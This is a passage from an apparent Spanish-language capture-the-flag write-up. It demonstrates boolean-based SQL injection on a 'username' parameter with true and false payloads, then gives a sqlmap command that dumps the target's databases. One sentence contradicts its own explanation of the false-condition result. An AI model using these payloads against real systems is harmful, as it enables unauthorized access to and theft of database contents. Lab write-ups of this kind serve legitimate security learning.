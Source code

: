 ```bash
username=admin'+and+1=1--+-
```

Veremos cómo la consulta nos devuelve los posts del usuario **admin**, ya que la consulta que se ha ejecutado ha sido exitosa.

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250216181343.png>)

Ahora introduciremos una inyección **SQL Injection** que alterará la consulta SQL para que devuelva un resultado falso.

```bash
username=admin'+and+1=2--+-
```

Tal y como vemos a continuación, ahora se muestran los posts del usuario **admin**, ya que hemos alterado la consulta SQL para que devuelva un resultado falso.

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250216181355.png>)
#### Automated - SQLMap

En primer lugar, estaremos dumpeando la información de la base de datos de manera automatizada gracias a **SQLMap**.
##### Bases de datos

Guardaremos en un fichero la petición vulnerable a la **Inyección SQL basada en booleanos**, y a continuación usaremos el siguiente comando para sacar todas las bases de datos.

```bash
sqlmap -r req.req -p "username" --dbs --batch --level 5 --risk 3
```
